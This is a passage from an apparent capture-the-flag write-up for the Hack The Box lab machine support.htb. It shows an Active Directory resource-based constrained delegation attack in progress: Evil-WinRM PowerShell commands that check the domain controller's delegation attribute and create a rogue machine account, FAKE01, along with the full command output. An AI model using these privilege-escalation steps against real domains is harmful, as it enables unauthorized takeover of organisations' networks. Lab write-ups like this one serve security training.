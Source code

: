 	...
	OSVersion                  : Windows Server 2022 Standard
	Roles                      : {SchemaRole, NamingRole, PdcRole, RidRole...}
	Domain                     : support.htb
	...
	```
- Flag `msds-allowedtoactonbehalfofotheridentity` not set
	```powershell
	*Evil-WinRM* PS C:\Users\support\Documents> Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity

	name msds-allowedtoactonbehalfofotheridentity
	---- ----------------------------------------
	DC
	```

### Time to pwn!

Since we meet all the requirements we can start the attack, let's create a new Machine Accound:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = FAKE01$
Verbose: [+] Distinguished Name = CN=FAKE01,CN=Computers,DC=support,DC=htb
[+] Machine account FAKE01 added

*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer fake01

pwdlastset             : 11/24/2022 9:00:23 AM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=FAKE01,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : FAKE01
objectsid              : S-1-5-21-1677581083-3380853377-188903654-5101
samaccountname         : FAKE01$
localpolicyflags       : 0
codepage               : 0
samaccounttype         : MACHINE_ACCOUNT
accountexpires         : NEVER
countrycode            : 0
whenchanged            : 11/24/2022 5:00:23 PM
instancetype           : 4
usncreated             : 82112
objectguid             : 40f08ed8-491c-4569-b5c8-be4b747a46b7
lastlogon              : 12/31/1600 4:00:00 PM
lastlogoff             : 12/31/1600 4:00:00 PM
objectcategory         : CN=Computer,CN=Schema,CN=Configuration,DC=support,DC=htb
dscorepropagationdata  : 1/1/1601 12:00:00 AM
serviceprincipalname   : {RestrictedKrbHost/FAKE01, HOST/FAKE01, RestrictedKrbHost/FAKE01.support.htb, HOST/FAKE01.support.htb}
ms-ds-creatorsid       : {1, 5, 0, 0...}
badpwdcount            : 0
cn                     : FAKE01
useraccountcontrol     : WORKSTATION_TRUST_ACCOUNT
whencreated            : 11/24/2022 5:00:23 PM
primarygroupid         : 515
iscriticalsystemobject : False
usnchanged             : 82114
dnshostname            : FAKE01.support.htb
```
